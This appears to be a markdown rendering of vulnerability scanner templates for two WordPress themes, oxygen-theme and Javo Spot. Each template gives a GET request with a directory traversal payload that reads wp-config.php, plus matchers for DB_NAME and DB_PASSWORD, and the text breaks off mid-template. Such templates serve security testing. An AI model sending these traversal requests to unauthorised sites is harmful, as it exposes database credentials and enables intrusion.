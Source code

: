 - Method - GET

### URL

- {{BaseURL}}/wp-content/themes/oxygen-theme/download.php?file=../../../wp-config.php

### Matchers

**Type - word**

- words
  1. DB_NAME
  2. DB_PASSWORD
- part - body
- condition - and

**Type - status**

- status
  1. 200

---

# WordPress Javo Spot Premium Theme - Unauthenticated Directory Traversal

## Description

- WordPress Javo Spot Premium Theme `wp-config` was discovered via local file inclusion. This file is remotely accessible and its content available for reading.
- severity - high
- tags - wordpress,backup,wpscan

## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-admin/admin-ajax.php?jvfrm_spot_get_json&fn=../../wp-config.php&callback=jQuery

### Matchers

**Type - word**

- part - body
- words
  1. DB_NAME
  2. DB_PASSWORD
- condition - and

**Type - status**
